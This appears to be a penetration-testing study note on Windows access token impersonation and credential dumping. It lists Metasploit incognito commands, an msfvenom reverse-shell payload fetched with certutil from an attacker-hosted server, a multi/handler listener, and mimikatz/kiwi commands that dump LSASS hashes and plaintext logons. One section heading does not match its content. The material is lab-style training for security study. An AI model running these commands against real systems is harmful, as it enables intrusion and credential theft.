###### Access Token Impersonation
- An access token will typically be assigned one of the following security levels:
	- Impersonate-level tokens are created as a direct result of a non-interactive login on
	Windows, typically through specific system services or domain logons.
	-  Delegate-level tokens are typically created through an interactive login on Windows,
	primarily through a traditional login or through remote access protocols such as RDP.

- The following are the privileges that are required for a successful impersonation attack:
	- SeAssignPrimaryToken: This allows a user to impersonate tokens.
	- SeCreateToken: This allows a user to create an arbitrary token with administrative
	privileges.
	- SeImpersonatePrivilege: This allows a user to create a process under the security
	context of another user typically with administrative privileges.
- `load incognito` -- load after we get meterpreter session
- `list_tokens -u` -- to list user account access tokens
- `impersonate_token "[TOKEN NAME]"` 


### Windows Credential Dumping
###### Windows Password Hashes
- The LSA (Local Security Authority) or LSASS (Local Security Authority SubSystem) is responsible for authentication on Windows. And this particular service also has a cache of memory that will contain hashes as it interact with SAM database
- Elevated/Administrative privileges are required in order to access and interact with the LSASS process.
###### Searching For Passwords In Windows Configuration Files
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[YOU IP] LPORT=1234 -f exe > payload.exe`
- `python -m SimpleHTTPServer 80` -- on your machine
   `certutil -urlcache -f http://[Your IP]/payload.exe payload.exe` -- on attacker/victim machine
   On Msfconsole
   `use multi/handler`
   `set payload windows/x64/meterpreter/reverse_tcp`
   `set LPORT 1234`
   `set LHOST`
- OR you can run [this](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) on windows system `. .\PowerUp.ps1` `Invoke-PrivescAudit` if not working try `powershell -ep bypass` then run the script
###### Dumping Hashes With Mimikatz
- `pgrep lsass` then `migrate [pid for lsass]`
- With kiwi module
	`load kiwi` -- to load the utility (use it after getting meterpreter session)
	`creds_all` -- to dump all the credential
	`lsa_dump_sam` -- it will dump all NTLM hashes
   - Now with mimikatz
	   `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe`
	   `shell`
	   `.\mimikatz.exe`
	   `privilege::debug` -- if gives Privilege '20' ok then you have required privilege in order to perform hash extraction from memory
	   `lsadump::sam`
	   `sekurlsa::logonpasswords`
	   `lsadump::lsa /patch`
